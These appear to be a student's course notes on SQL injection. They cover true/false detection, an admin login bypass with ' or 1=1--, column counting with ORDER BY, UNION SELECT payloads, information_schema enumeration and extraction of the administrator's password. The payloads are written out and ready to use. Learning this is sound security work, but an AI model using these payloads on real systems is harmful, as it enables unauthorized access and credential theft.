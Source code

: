 # Section 13: SQL Injection Vulnerabilities

## Discovering SQL Injections

In every input:
- Inject a statement that returns false
- Inject a statement that returns true
- Compare results

Example: In a filtering by category search param is being reflected on web page

(First try HTML injection, then XSS)

Original Statement:

```
Select * from shop where category = 'Food and Drink'
```

Injection test

```
Select * from shop where category = 'Food and Drink' and 1=1--`
```

dashes at the end to comment out

```
Select * from shop where category = 'Food and Drink' and 1=0--`
```

the web application broke at second query

---

## Bypassing Admin Login Using Logical Operators

Example: login credentials in login, breaking when entering password as quote

Visualize Original Statement

```
SELECT * FROM USERS WHERE username = '$username' AND password = '$password'
```

<b>SQL Injection</b>

```
SELECT * FROM users WHERE username = 'admin' AND password = `'test' or 1=1--`
````

this will evaluate to true

Payload:

```
` or 1=1--
```

---


## Selecting Data from the Database

<b>First should determine number of columns</b>

```
order+by+100000
```

will break the page because there is no so many columns

```
order+by+5
```

page breaks again, there are no so many columns


```
order+by+3
```

breaks again

```
order+by+2
```

page loads, we know <b>there are only 2 columns being selected</b>

<b>Build union, use another select statement that will be appended to existing select statement</b>

```
union+select+1,2--
```

(appended in the URL as a search query)

breaks page, because client uses another database engine

```
union+select+NULL,NULL--
```

page is loading

```
union+select+'a',NULL--
```

a is displayed in the page, if we substitute that with a value that we want to select from DB, it will be displayed at that place

```
union+select+version(),NULL--
```

---

## Accessing the Database Admin Records

Guessing db table

```
union+select+username,NULL+from+users
```

Get list of all the tables, varies depending on db engine, in postgres

```
union+select+table_name,NULL+from+information_schema.tables--
```

got a list of all db tables

Now, get the columns

```
union+select+column_name,NULL+from+information_schema.columns+where+table_name='users'--
```

Build a valid select statement to list users

```
union+select+username,NULL+from+users--
```

```
union+select+password,NULL+from+users+where+username='administrator'--
```

---
